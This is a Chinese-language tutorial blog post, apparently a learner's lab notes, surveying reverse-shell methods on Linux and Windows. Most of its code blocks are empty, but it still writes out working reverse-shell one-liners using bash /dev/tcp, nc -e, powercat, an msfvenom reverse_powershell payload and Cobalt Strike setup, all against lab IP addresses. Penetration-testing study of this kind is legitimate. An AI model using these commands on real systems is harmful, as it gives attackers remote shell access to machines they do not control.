



反弹shell的方法总结
Last Update:
Word Count:
Read Time:
一、前言
1. 什么是反弹shell
就是控制端监听某TCP/UDP端口，被控端发起请求到该端口，并将其命令行的输入输出转到控制端。reverse shell与telnet，ssh等标准shell对应，本质上是网络概念的客户端与服务端的角色反转。
1 | |
2. 为什么需要反弹shell？
反弹shell通常用于被控端因防火墙受限、权限不足、端口被占用等情形。在渗透过程中，往往因为端口限制而无法直连目标机器，此时需要通过反弹shell来获取一个交互式shell，以便继续深入。以下详细介绍Windows和Linux系统下反弹shell的几种方式。
二、反弹shell命令解析
1. 命令解析
例如：bash -i >& /dev/tcp/192.168.1.1/9090 0>&1
bash -i
bash -i，意为创建一个交互式的bash shell
/dev/tcp/192.168.1.1/9090
dev是设备(device)的英文缩写。这里主要存放与设备（包括外设）有关的文件
/dev/tcp/是linux中的一个特殊设备，打开这个文件就相当于发出了一个socket调用，建立一个socket连接，读写这个文件就相当于在这个socket连接中传输数据。同理，linux中还存在/dev/upd/
所以上述命令是和192.168.1.1:9090建立TCP连接
虽然/dev/tcp/${HOST}/${PORT}这个字符虽然看起来像一个文件系统中的文件，并且位于/dev这个设备文件夹下
但是这个文件并不存在，并且不是一个设备文件。这只是bash实现的用来实现网络请求的一个接口，其实就像我们自己编写的一个命令行程序，按照指定的格式输入host port参数，就能发起一个socket连接
2. 文件描述符
Linux系统中，把一切都看做是文件，当进程打开现有文件或创建新文件时，内核向进程返回一个文件描述符，文件描述符就是内核为了高效管理已被打开的文件所创建的索引，用来指向被打开的文件
所有执行I/O操作的系统调用都会通过文件描述符，即文件描述符可控制输入输出（输出/输出重定向）
| 标准输入(stdin) | 代码为0 | 使用<或<< | 默认设备键盘 |
| 标准输出(stdout) | 代码为1 | 使用>或>> | 默认设备显示器 |
| 标准错误输出(stderr) | 代码为2 | 使用2>或2>> | 默认设备显示器 |
大多数Linux系统命令从你的终端接受输入并将所产生的输出发送回到您的终端。一个命令通常从一个叫标准输入的地方读取输入，默认情况下，这恰好是你的终端。同样，一个命令通常将其输入写入到标准输出，默认情况下，这也是你的终端。
shell 输入/输出重定向
如上，我们正常使用终端执行命令时，默认输入输出皆是终端。
3. 输出重定向
顾名思义，就是将输出结果重定向到其他地方
1️⃣
使用 1> 将输出结果写入到指定文件中，文件不存在则创建文件，文件如果存在会覆盖原文件内容
1> 中的1是默认的可以忽略不写，也就是可以写成>
同理0<可以写成<
2️⃣
使用>>会追加内容在文件末尾
3️⃣实例
控制端：kali
被控端：centos
kali监听8888端口
centos输入命令
echo hello > /dev/tcp/192.168.17.128/8888
kali监听到输出结果
4. 输入重定向
kali继续监听端口，centos输入命令
bash -i > /dev/tcp/192.168.17.128/8888
kali得到输出结果
这种方法的话，centos输一条命令，kali则回显一条命令输出结果
输入输出结合获得shell
两条命令
1 | |
1 | |
结合一下，即可实现反弹shell
1 | |
1️⃣
0>&1
语法格式是
>&word
当word为数字或者-时，表示复制文件描述符
复制格式有num1<&num2和num1>&num2，区别是，前者是以只读的形式打开，后者是以写的形式打开，这里两者均可
0>&1这里意思是将0[标准输入]重定向到了1[标准输出]指向的位置
2️⃣
>&
当word不是数字或-字符时，>&表示将标准错误输出合并到标准输出中
三、linux下反弹shell
实验环境：
Win10 192.168.17.135 NC监听
Kali 192.168.17.128 自带工具
1. bash反弹
1 | |
这里也是崩溃了，第一种反弹方法就遇到了障碍，我发现我的kali用不了上述的方法，它表明/dev/tcp文件不存在，网上漫游发现
1 | |
于是有些版本的bash可能默认不支持对/dev/tcp的打开。此时可以在编译bash的时候增加一个参数：–enable-net-redirections然后重新编译bash即可。
但我没有增加参数，因为我当时认为我bash版本应该很高，已经默认开启了这个选项 ，于是我跟着文章查看了当前shell环境，发现为zsh，于是我新建了一个用户用于永久使用bash命令。参考文章在下面
但有强迫症的我，接着根据几个关键词搜寻linux下如何切换shell环境，终于找到了永久切换文章，这里也放到下面，也很简单，就几条命令而已
在特殊情况可以使用base64编码执行bash反弹shell
1 | |

在kali中执行会解析成编码前的bash命令
2. nc反弹
1 | |
-e后面跟的参数代表的是在创建连接后执行的程序，这里代表在连接到远程后可以在远程执行一个本地shell(/bin/bash)，也就是反弹一个shell给远程，可以看到远程已经成功反弹到了shell，并且可以执行命令。
3. curl反弹
Kali开启apache服务，把bash命令写入html文件，只要文本包含bash一句话即可。
开启apache可参考：Kali Linxu中打开Apache服务
1 | |

4. whois反弹
1 | |
5. python反弹
1 | |
6. PHP反弹
php反弹shell和python的方式差不多
1 | |
7. ruby反弹
1 | |
但这个语句似乎不能用了吧，报了如下错误
搜寻发现下列语句
1 | |
1 | |
这两种方法均可
8. socat反弹
1 | |

但是乱码真的烦，我也没细究为何
9. Perl反弹
1 | |

四、Windows下反弹shell
1. powercat反弹
用IEX下载远程PS1脚本回来权限绕过执行
使用powershell执行IEX
1 | |
这里我也很头疼一直不成功，我感觉从网上下载绕过肯定可行，但似乎失误率很高，毕竟目标文件的格式很容易犯错，当然或许可以下载到本地或vps，通过局域网或者公网访问下载。这里我选择直接下载使用看看
powercat下载地址：https://github.com/besimorhino/powercat //下载到本地执行
powercat为Powershell版的Netcat，实际上是一个powershell的函数，使用方法类似Netcat
1 | |
输入powercat -c 192.168.17.137 -p 8888 -e cmd
2. NC反弹
服务端反弹：nc 192.168.17.137 8888 -e c:\windows\system32\cmd.exe
3. nishang反弹
Nishang下载地址：https://github.com/samratashok/nishang
Nishang是一个基于PowerShell的攻击框架，整合了一些PowerShell攻击脚本和有效载荷，可反弹TCP/ UDP/ HTTP/HTTPS/ ICMP等类型shell
将nishang下载到攻击者本地，在目标机使用powershell执行以下命令
1 | |
这里依旧不行，或许访问本地下载速度很慢，等了几分钟我也没见结果，因此还是直接下载到目标机执行吧。。。。
1 | |
这个脚本linux、windows命令均可以使用
4. Reverse UDP shell
攻击机监听 nc -lvup 8888
利用上面下载的还是放在攻击机上在目标机中powershell执行以下命令
1 | |
这里我一直没通，以为是什么别的问题，看来还是浅薄了，这里的监听命令必须为nc -lvup port，我这里一直是vnp，查询了一番发现
1 | |
参考：nc命令用法举例
5. MSF反弹
我们直接可以使用 msfvenom -l 结合关键字过滤（如cmd/windows/reverse），找出我们需要的各类反弹一句话payload的路径信息。
1 | |
这里找powershell的payload
依照前面查找出的命令生成一句话payload路径，我们使用如下的命令生成反弹一句话，然后复制粘贴到靶机上运行即可。
msfvenom -p cmd/windows/reverse_powershell LHOST=192.168.17.137 LPORT=8888 //host为被攻击机
1 | |
靶机执行使用powershell执行payload，这里我一直闪退，也找不出什么原因，或许是这种方法被我的靶机识别了吧，这里采用一个生成exe文件的方式来反弹shell
1 | |
复制payload.exe到Windows机器，然后kali下开启msf使用如下命令监听8888端口：
1 | |
设置完，在靶机上执行exe即可监听 成功
6. Cobalt strike反弹shell
Cobalt strike的Scripted Web Delivery模块，可通过bitsadmin、powershell、python、regsvR32等进行反弹shell，类似metasploit的web_delivery模块
运行服务端
./teamserver 192.168.17.137 123 #123为连接密码
运行客户端：
Windows运行cobaltstrike.jar #用户名随便输入 密码123
开启监听:
点击Cobalt Strike->Listeners
payload可选择windows/beacon_http/reverse_http
说明：其中windows/beacon 是Cobalt Strike自带的模块，包括dns,http,https,smb四种方式的监听器，windows/foreign 为外部监听器，即msf或者Armitage的监听器。
这里name随便，ip写服务器端，端口自定义
生成powershell payload:
点击Attack ->Scripted Web Delivery
Type选择 powershell
payload为
1 | |
生成代码已经给出了，在windows上执行
我是在上图位置执行的，不知道其他地方行不行。
不过看见同一电脑上线两次，估计cmd里面执行也可
右键点击interact进入shell，这里ipconfig等命令无法执行，应该是提权才能执行吧，这里不深入了
这次写的反弹shell只是想有一个总体的了解，过程坎坷，不过我们不应该因为步骤复杂或者遇到困难而妥协，在过程中遇到问题解决问题同样可以学到东西。本次文章也有欠缺，不够完美，后续深入学习在继续更新吧。
等等，有强迫症的我，了解了一下为何上述命令无法执行，因为某些命令只是cs自带的，那么ipconfig这种cs就没有，我们需要在前面加入shell即可执行

五、参考文章
[通过shell终端直接打开socket文件进行TCP、UDP通信（转）](https://cnblogs.com/zl1991/p/12524924.html)
Kali linux zsh shell切换bash shell
上面2-6的文章均为解决/dev/tcp找不到的方法